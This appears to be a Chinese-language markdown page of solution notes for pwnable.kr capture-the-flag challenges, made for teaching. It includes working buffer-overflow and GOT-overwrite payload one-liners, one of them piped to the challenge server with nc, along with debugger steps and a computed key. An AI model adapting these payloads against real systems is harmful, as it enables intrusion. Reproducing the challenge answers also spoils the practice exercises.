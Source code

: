 # pwnable.kr

## fd
- [Notes](./01.fd/fd.md)

## collision
- [Notes](./02.collision/collision.md)

## bof

-   动态调试
    -   设置断点: `b main`
    -   开始运行: `r`
    -   单步调试: `n`
    -   单步步入：`s`
    -   创建一个64字节的测试 payload: `pattern create 64`
    -   查看目标地址: `p $ebp+0x8`
        -   `0xffffd570`
    -   查看地址状态: `telescope 25`
        -   `0xffffd53c`
    -   查看偏移量: `pattern offset {whatever at $ebp+0x8}`
        -   `0xffffd570 - 0xffffd53c = 0x34`
    -   故构造payload: `(python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000`
-   静态调试
    -   `s=$esp+1ch`
    -   `a1=$esp+50h`
    -   `payload = 'j' * 52 + p32(key)`
> P.S.
> How to run 32bits on 64bit ubuntu
> ```
> dpkg --add-architecture i386
> apt -get update
> apt-get dist-upgrade
> apt install libc6:i386
> ```
## flag

-   Hint: `This is reversing task. all you need is binary`
-   `upx -q -d flag -ofalg_upx`
-   GDB
    -   Key Code: `mov    rdx,QWORD PTR [rip+0x2c0ee5]        # 0x6c2070 <flag>`
    -   `hexdump $rdx 64`
-   IDA

## passcode

-   `name`可溢出
-   `scanf`使用错误，导致将输入值写入到`passcod1`的值所代表的地址上（即`passcode1`的地址上存的内容将被视为输入的目标地址）
    -   `mov edx, [ebp+var_10]`应为`lea edx, [ebp+var_10]`
-   利用`name`溢出将`passcode1`内容覆盖为`GOT`内某个函数的地址，然后输入值设为某个想要作为替代（可获得flag）的代码地址
-   `python -c "print 'j'*0x60+'\x04\xa0\x04\x08'+ '134514147\n'" | ./passcode`

## random

-   `rand()` 若没有提供参数会在当前环境使用同一随机种子来生成随机数
-   而通过测试，服务器上 `rand()` 生成的默认随机数值为 `1804289383`, 故 `key = 1804289383 ^ 0xdeadbeef = 3039230856`

## mistake
